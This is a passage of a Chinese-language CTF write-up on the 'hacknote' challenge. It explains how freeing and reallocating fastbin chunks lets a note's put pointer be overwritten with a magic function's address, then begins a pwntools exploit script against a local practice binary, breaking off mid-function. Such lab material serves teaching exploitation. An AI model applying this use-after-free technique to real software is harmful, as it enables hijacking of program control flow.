 ### 利用分析

我们可以看到 Use After Free 的情况确实可能会发生，那么怎么可以让它发生并且进行利用呢？需要同时注意的是，这个程序中还有一个magic函数，我们有没有可能来通过use after free 来使得这个程序执行magic函数呢？**一个很直接的想法是修改note的put字段为magic函数的地址，从而实现在执行print note 的时候执行magic函数。** 那么该怎么执行呢？                                                                         

我们可以简单来看一下每一个note生成的具体流程

1. 程序申请8字节内存用来存放note中的put以及content指针。
2. 程序根据输入的size来申请指定大小的内存，然后用来存储content。

           +-----------------+                       
           |   put           |                       
           +-----------------+                       
           |   content       |       size              
           +-----------------+------------------->+----------------+
                                                  |     real       |
                                                  |    content     |
                                                  |                |
                                                  +----------------+

那么，根据我们之前在堆的实现中所学到的，显然note是一个fastbin chunk（大小为16字节）。我们的目的是希望一个note的put字段为magic的函数地址，那么我们必须想办法让某个note的put指针被覆盖为magic地址。由于程序中只有唯一的地方对put进行赋值。所以我们必须利用写real content的时候来进行覆盖。具体采用的思路如下

- 申请note0，real content size为16（大小与note大小所在的bin不一样即可）
- 申请note1，real content size为16（大小与note大小所在的bin不一样即可）
- 释放note0
- 释放note1
- 此时，大小为16的fast bin chunk中链表为note1->note0
- 申请note2，并且设置real content的大小为8，那么根据堆的分配规则
  - note2其实会分配note1对应的内存块。
  - real content 对应的chunk其实是note0。
- 如果我们这时候向note2 real content的chunk部分写入magic的地址，那么由于我们没有note0为NULL。当我们再次尝试输出note0的时候，程序就会调用magic函数。

### 利用脚本

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

r = process('./hacknote')


def addnote(size, content):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)


def delnote(idx):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(idx))


def printnote(idx):
    r.recvuntil(":")
```